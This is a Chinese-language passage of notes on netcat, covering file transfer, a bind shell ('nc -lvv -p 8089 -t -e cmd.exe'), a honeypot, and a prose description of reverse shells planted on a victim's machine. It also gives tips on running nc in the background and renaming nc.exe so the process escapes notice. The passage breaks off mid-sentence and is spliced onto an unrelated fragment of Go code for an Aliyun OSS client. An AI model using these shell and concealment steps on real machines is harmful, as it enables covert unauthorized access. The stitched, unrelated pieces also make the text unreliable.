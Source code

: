 传文件：
        其实和nc没啥关系，主要利用了系统IO重定向或pipe的功能，标准化带来的好处多多。
        发送端通过pipe把文件数据传递给stdin，或者通过重定向把stdin重定向到某个文件上，然后接受端只要对stdout进行重定向把它定向到目标文件上去即可。
        比如：
        server: nc -lvv -p 8089 < my.txt
        client: nc -nvv serverip 8089 > my.txt
        当你在纠结两台机子传个文件到底是用网络共享好还是利用中间ftp好又或者是scp甚至于给自己发个邮件另一台机子上去下载的时候，这简直是你的诺亚方舟。
        这个功能说成传文件说的有些狭隘了，总之就是传递数据，理论上可以把接收端的数据（可能是某种格式编码的）直接传给对应的处理软件去执行，举个例子比如说看个视频什么的。

得到对端机子的shell：
        -e的邪恶能力终于派上用场了。
        一台机子上 nc -lvv -p 8089 -t -e cmd.exe
        然后你去连它的时候神奇的事情发生了，自己的终端会变成对方机子的终端，可以随便做邪恶的事情（在用户权限范围下），原理的话估计和我上面写的类似。
        如果对方机子的nc支持-d，那就更理想一点，加上这个参数使得nc后台运行更加难以发现，更进一步的，修改nc.exe的文件名使查看进程的时候别人也不容易起疑。这个NB的功能除了拿来动真刀真枪之外，还能怎么玩其实主要看-e后面的这个用户程序怎么去写吧，这个还是自己去找灵感。

蜜罐：
        还是作为server的基本功能来说，思路不一样会发现用途立刻就大相径庭了。比如说你没事儿listen一个端口，然后-o 来打log，闲来喝喝茶翻翻log，你就能知道都有哪些人对你的这个端口感兴趣（嘿嘿嘿...）
        更进一步的，因为许多小坏蛋们总是用一些安全渗透工具来找空子，毕竟是工具嘛，识别一些漏洞总是有一组傻乎乎的规则的，如果想要捉弄他们让他们误以为真的有漏洞而采取进一步措施的话，可以结合nc的数据传输功能和-e再加上自写程序来伪造一个。不过小心玩火自焚喽。

反向链接：
        前面说一个拿到server shell的情况，要求server端绑定一个shell程序到端口上。那么实际应用情境中，一般就是小坏蛋给小绵羊电脑上种一个server啦，然后每次小坏蛋去连接都能得到shell。但由于种种问题，小坏蛋要直接连到小绵羊电脑可能比较麻烦，尤其是小绵羊电脑在一个局域网中，通过nat上网的情况下。
        为了解决这个问题，可以换一种思路，小绵羊作为主动发起端并自己绑定一个shell程序到nc，要实现这个步骤可能是小坏蛋哪天千辛万苦入了小绵羊电脑设了一个计划任务，也可能是小坏蛋到小绵羊家里玩的时候在小绵羊电脑里使了个坏...然后小坏蛋电脑只需要安心开着server等小绵羊上钩，每次小绵羊连接到server就自动把自己卖了出去...
        原理的话，猜测是在阻塞connect成功之后fork然后exec，再wait，和主动连接差不多的。不过反向链接省去了正面突围的大麻烦，功德一件，善哉善哉。


        看到比较典型的大概有上面这几种，熟悉的人肯定已经熟悉的不能再熟


### OSS 
<pre>
package oss

import (
	"bytes"
	"os"
	"io"
	"fmt"
	"io/ioutil"
	
	
	"github.com/astaxie/beego"
	"github.com/aliyun/aliyun-oss-go-sdk/oss"
)

const (
	Endpoint        = "https://oss-cn-hangzhou.aliyuncs.com"
	AccessKeyId     = ""
	AccessKeySecret = ""
	OssDir          = "test/test"
)
